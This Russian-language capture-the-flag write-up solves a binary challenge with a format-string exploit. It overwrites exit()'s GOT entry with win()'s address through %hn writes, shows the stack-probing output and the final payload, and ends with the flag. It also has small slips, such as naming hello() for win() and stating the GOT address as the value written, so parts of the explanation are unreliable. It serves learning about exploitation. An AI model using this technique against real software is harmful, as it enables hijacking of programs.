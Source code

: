 # Ложа Тульского пряника

## Условие

Ежегодно на нашу пряничную ярмарку приезжает Тайная Пряничная Ложа, они собираются в самом дальнем шатре.

Если хотите туда попасть, то вам нужно знать пароль. И нет, это не пряник и не самовар. Так что удачи вам попытать счастье.

Дам подсказку, в начале поприветствуете фразой 
>The well-known GingerbreadHub site


## Решение

Декомпилируем файл, видим функцию win, в которой присутствует наш необходимый флаг. Необходимо перенаправить поток выполнения программы. Для этого надо будет перезаписать адрес exit() в GOT адресом win() . Здесь есть 4 шага:
* Найдем адрес hello()
* Найдем адрес exit() в GOT
* Найдем смещение нашей строки в стеке
* Напишем правильную строку эксплойта

В начале найдем адреса функции exit - 0x0804b2a0 
> objdump -R ClubPryanikaFlag

Теперь найдем адреса функции win - 0x080491a6
> objdump -t ClubPryanikaFlag | grep win

Теперь, что касается позиции нашей строки, это четвертый параметр в стеке:
> AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.
> AAAA00000200.f7e1e620.080491e3.41414141.78383025.3830252e.30252e78.252e7838.2e783830.78383025.

Итак, наш эксплойт будет выглядеть так:
> \xa2\xb2\x04\x08\xa0\xb2\x04\x08%<val1>x%4$hn%<val2>x%5$hn

Нам нужно вычислить значение, исходя из того, что нам нужно написать 0x0804b2a0:
    Младшие байты = 91a6 (37286 в десятичном формате).
    Старшие байты = 0804 (2052 в десятичном формате).
Однако старший байт уступает младшему, поэтому сначала мы напишем старший. Нам просто нужно инвертировать адреса, куда мы хотим писать:
    Старшие байты = 0804 (2052 в десятичном формате). Минус 8 байт для адресов = 2044.
    Младшие байты = 91a6 (37286 в десятичном формате). Минус 2052 байта, которые мы уже написали = 35234.

Вот эксплойт, который нужно вести во второй ввод:
> \xa2\xb2\x04\x08\xa0\xb2\x04\x08%2044x%4$hn%35234x%5$hn

Для более подробного изучения рекомендую почитать статьи на тему "Exploit 101 - Format Strings"

## Flag 
```TulaCTF{Da_Zdravstvuet_Tula_Da_Zdravstvuet_71}```


